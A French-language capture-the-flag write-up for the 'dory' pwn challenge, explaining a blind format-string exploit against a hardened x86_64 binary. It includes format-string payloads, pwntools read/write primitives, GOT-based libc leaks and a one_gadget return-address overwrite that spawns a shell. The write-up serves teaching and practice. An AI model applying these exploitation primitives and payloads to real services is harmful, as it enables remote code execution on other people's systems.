

# dory
## Description

Catégorie: `pwn`
Difficulté : `hard`
Nombre de résolutions : 1

> Dory voyage parmi les étoiles de mer, tout ce dont elle se rappelle, son nom... Aidez là à retrouver sa coquille...<br>
> `nc seastars.boisson.homeip.net 40011`.

- `dory`

Challenge fait par franb et ghozt.

## Intro

`dory` est un challenge de pwn `x86_64` où nous avions seulement accès au programme. Notre objectif étant de récupérer le flag sur le serveur en exploitant une format string à l'aveugle.

Les protections appliquées au binaire sont:
```
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

## Analyse du code

Étant donné que nous n'avons pas accès aux sources pour ce challenge, nous devrons utiliser un décompilateur pour avoir un pseudo-code à analyser.

On peut ouvrir le binaire dans IDA et remarquer qu'il y a seulement une fonction `main`:

```c
void main(int argc, const char *argv[])
{
  FILE *stream;
  char buf[24];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  for (stream = fopen("/dev/null", "a"); ; fprintf(stream, buf)) {
    printf("Programme %s\n", argv[0]);
    buf[read(0, buf, sizeof(buf)) - 1] = '\0';
  }
}
```

Comme on peut le voir, le programme nous affiche le contenu de `argv[0]`, puis lis une entrée avec une taille maximale de 24 octets qui sera utilisé en tant que format par `fprintf`. 

Le bug est bien évidemment une simple format string, mais pas vraiment si simple que cela. Le résultat de la format string est redirigé vers `/dev/null` ce qui complexifie l'exploitation étant donné que l'on ne peut pas leak au travers de `fprintf`.

## Leak via argv[0]

Vous l'avez remarquer, l'appel à la fonction `printf` affiche le contenu de `argv[0]`. Cela fait de cet appel une bonne cible pour avoir une primitive de lecture, en modifiant la valeur de `argv[0]` on peut lire où l'on souhaite.

Sachant que l'on n'a pas de leak de la stack, cela signifie que nous devrons nous localiser sur la stack, et c'est probablement la partie la plus dûre du challenge. Pour cela deux solutions s'offre à nous.

### Réécriture du LSB de l'argv

Dans un premier temps, la solution la plus logique qui nous vient à la tête est de réécrire le LSB de `argv[0]` pour ensuite itérer sur la stack et retrouver l'adresse qui contient par exemple la fonction `main` ou autre.

Il y a plusieurs inconvénients à cette technique. En effet, il y a un risque de SIGSEGV dans le cas où l'adresse l'`argv[0]` réécris pointe vers de la mémoire non-mappée, mais encore le temps est variable pour se localiser et il y a besoin d'avoir des heuristiques tangibles.

### Réécriture partielle de l'argv avec l'indicateur de largeur

Cette option nous permet d'écrire dans `argv` une adresse fixe et nécessite seulement d'avoir un pointeur de la stack atteignable avec la format string.

Heureusement pour nous, `argv` est situé plus loin sur la stack ce qui fait que l'on peut atteindre `argv[0]` facilement. De plus, étant donné que `argv` est utilisé dans la fonction `main`, une référence à `argv` est présente dans la stack frame, ce qui rend `argv` encore plus proche d'accès, à l'index 5 :

[](./assets/argv_index.png)

Pourquoi l'index 5 ? Parce que la fonction `fprintf` utilise déjà deux arguments (**RDI**: stream, **RSI**: format), donc les arguments qui suivent seront dans **RDX**, **RCX**, **R8**, **R9** puis sur la stack. Et comme on peut le constater sur l'image au-dessus, `argv` est référence sur le haut de la stack au premier index.

Maintenant il faut que l'on puisse réécire avec certitude la valeur de `argv[0]` avec une adresse fixe. Pour cela nous allons utilisé une fonctionnalité de la famille de `printf`, l'indicateur de largeur de champs ou *width* en anglais.

Passons à l'exploitation, cette simple charge utile `%*5$c%5$hn` a pour objectif de récupérer la valeur à l'index 5, ici `argv`, puis d'écrire autant d'espaces pour ensuite réécrire les deux octets de poids faible de `argv[0]`. Cela nous permet de leak l'adresse de `argv` à coup sûr à chaque fois.

Prenons un exemple pour mieux visualiser ce qui se trame derrière ce trick. Voici la charge utile `%*11$c%5$hn`, l'état de la stack est le suivant avant l'exécution de `fprintf` :

[](./assets/argv_overwrite_example_before.png)

A l'index 5 on a l'`argv` comme avant, et à l'index 11 la valeur `0x1337` qui dans notre cas réél serait l'adresse de `argv`. Il va donc d'abord y avoir 0x1337 espaces d'écrit avant que `%5$hn` écrive à l'index 5 (`argv`) ce nombre :

[](./assets/argv_overwrite_example_after.png)

On remarque que l'on a bien réécrit les deux octets de poids faible avec la valeur à l'index 11 (0x1337).

Maintenant avec la charge utile initiale `%*5$c%5$hn` on voit que l'on arrive bien à mettre `argv[0]` avec la valeur de `argv` :

[](./assets/argv_overwrite_after.png)

On a donc bien un leak constant de `argv` :

[](./assets/argv_leak.png)

> **Note** <br>
> Le seul inconvenient de cette technique est qu'il est nécessaire d'avoir les 32 bits de poids faible inférieur à `0x80000000`. Malheureusement, l'utilisation de l'indicateur width nécessite un entier signé, dans quel cas si ça ne l'est pas un overflow de l'entier se produira. <br>

On peut voir cela dans le [code](https://elixir.bootlin.com/glibc/latest/source/stdio-common/vfprintf-internal.c#L764) de source de la libc:

```c
  /* Get width from argument.  */
LABEL (width_asterics):
{
  const UCHAR_T *tmp;	/* Temporary value.  */

  tmp = ++f;
  if (ISDIGIT (*tmp))
  {
    int pos = read_int (&tmp);

    if (pos == -1)
    {
      __set_errno (EOVERFLOW);
      Xprintf_buffer_mark_failed (buf);
      goto all_done;
    }

    if (pos && *tmp == L_('$'))
      /* The width comes from a positional parameter.  */
      goto do_positional;
  }

  // ! \\ Extrait un int
  width = va_arg (ap, int);

  /* Negative width means left justified.  */
  if (width < 0)
  {
    width = -width;
    pad = L_(' ');
    left = 1;
  }
}
```

## Lecture arbitraire

Avant de pouvoir lire à une adresse arbitraire, il nous faut d'abord construire notre primitive d'écriture pour forger un faux `argv` sur la stack. Etant donné que l'on est limité en taille, pour écrire des adresses hors stack il nous faudra plusieurs écritures (on peut passer encore par le trick avec l'`*` mais ce n'est pas primordial).

Notre objectif sera de modifié les deux octets de poids faible de `argv` pour pointer vers l'adresse de notre pointeur sur la stack, ensuite on pourra restaurer `argv` à l'état initial.

Pour ce faire, cette fonction dans l'exploit nous permet d'écriture 2 octets par 2 octets un entier 64-bits à une adresse arbitraire :

```py
def write(self, addr: int, value: int):
  for i in range(4):
    v = (value >> (0x10 * i)) & 0xffff
    p = flat({
        0: f"%{v}c%11$hn".encode() if v else b"%11$hn",
        0x10: p64(addr + (i * 2))
    }, filler=b'\0')
    self.io.send(p)
    self.io.recvuntil(b"Programme ")
    self.io.clean()
```

Une autre fonction utile pour écrire des valeurs qui ne rentre pas à cause de la limite de l'entrée, et qui utilise le trick avec l'`*`. La valeur est stocké à une adresse (ici l'adresse qu'on pourra accèder à l'index 21), puis écrite à une adresse arbitraire :

```py
def write_one(self, addr: int, value: int):
  self.write(self.argv - 0xd8, value)
  p = flat({
      0: f"%*21$c%11$n".encode(),
      0x10: p64(addr)
  }, filler=b'\0')
  self.io.send(p)
```

Maintenant, pour lire il nous faut juste écrire l'adresse à lire sur la stack, modifier `argv` pour pointer sur cette adresse, lire le contenu puis restaurer le pointeur. Voici le code responsable pour la lecture arbitraire :

```py
def read(self, addr: int):
  self.write(self.area_ptr, addr) # self.area_ptr contient l'adresse à lire
  data = self.set_area()          # Modifie argv pour pointer sur self.area_ptr
  self.set_argv()                 # Restaure argv à son état initial
  return data
```

## Exécution de code

Nous avons maintenant nos primitives de lecture et d'écriture, il nous manque plus qu'à retrouver la base du binaire ainsi que la version de la libc en [ligne](https://libc.blukat.me/) à l'aide des fonctions de la GOT :

```py
printf = u64(io.read(elf.symbols.got["printf"]).ljust(8, b'\0'))
read = u64(io.read(elf.symbols.got["read"]).ljust(8, b'\0'))

print("printf @ %#x" % printf)
print("read   @ %#x" % read)
```

On retrouve la libc avec le build ID `6542915cee3354fbcf2b3ac5542201faec43b5c9`.

Afin d'obtenir un shell nous avons plusieurs choix, on peut passer par un one gadget ou bien par une ropchain. La ropchain va demander plus de temps d'écriture avec la format string mais permettra d'être plus stable.

### one_gadget

Avec l'outil [`one_gadget`](https://github.com/david942j/one_gadget) on peut récupèrer la liste des candidats pour un one gadget :

```c
0x4d8cc posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x68 is writable
  rsp & 0xf == 0
  rax == NULL || {"sh", rax, rip+0x14c537, r12, ...} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

0x4d8d3 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x68 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, rax, rip+0x14c537, r12, ...} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

0xd63f3 execve("/bin/sh", rbp-0x40, r12)
constraints:
  address rbp-0x38 is writable
  rdi == NULL || {"/bin/sh", rdi, NULL} is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp
```

Notre objectif sera de réécrire l'adresse de retour de `vfprintf_internal` qui est une adresse de la libc, on pourra donc réécrire les 4 octets de poids faible pour avoir l'adresse de notre one gadget.

La seule limitation de cette technique est que l'on doit avoir les 32-bits de poids faible inférieur à un `INT_MAX`, puisque printf ne permet pas d'écrire plus que cela :

```py
vfprintf_internal_ret = argv - 0x240
gadget = (libc.address + 0x4d8d3) & 0xffffffff

assert gadget <= 0x7fffffff, "OVERFLOW DETECTED"

io.write_one(vfprintf_internal_ret, gadget)
```

Il y a aussi une autre possibilité pour écrire d'un coup une adresse 32-bits grâce à l'indicateur de largeur avec `*`. Il faut au préalable écrire les adresses et les valeurs qu'elles auront, ici nous allons les stockés en commençant à l'index 13 situé à `argv - 0x118` :

```py
vfprintf_internal_ret = argv - 0x240

gadget = (libc.address + 0x4d8d3) & 0xffffffff

addr_area = argv - 0x118

# index 13
io.write(addr_area, vfprintf_internal_ret)
# index 14
io.write(addr_area + 0x8, vfprintf_internal_ret + 2)
# index 15
io.write(addr_area + 0x10, (gadget & 0xffff))
# index 16
io.write(addr_area + 0x18, (0x10000 - (gadget & 0xffff)) + (gadget >> 0x10))

# clear argv[0] pour satisfaire [RBX] == NULL
io.send(f"%5$lln".encode())

# écriture des valeurs
io.io.sendline(b"%*15$c%13$n%*16$c%14$hn")
```

Vous pouvez retrouver les exploits complets [ici](https://github.com/expressitoo/ctf-wu/blob/main/2024/sthack/pwn/dory/), le premier nécessite deux bruteforces de 4-bits (un succès de 1/10 pendant les tests), dans le cadre du CTF le plus rapide ne veut pas dire le plus stable. Tandis que le deuxième nécessite seulement un bruteforce de 4-bits pour les 32-bits de l'argv qui doivent être inférieur à un `INT_MAX` (un succès de 1/3 pendant les tests).

Enfin voici le résultat après exécution du script :

[](./assets/flag.png)

Flag : `STHACK{n0t_5o-8lind!!}`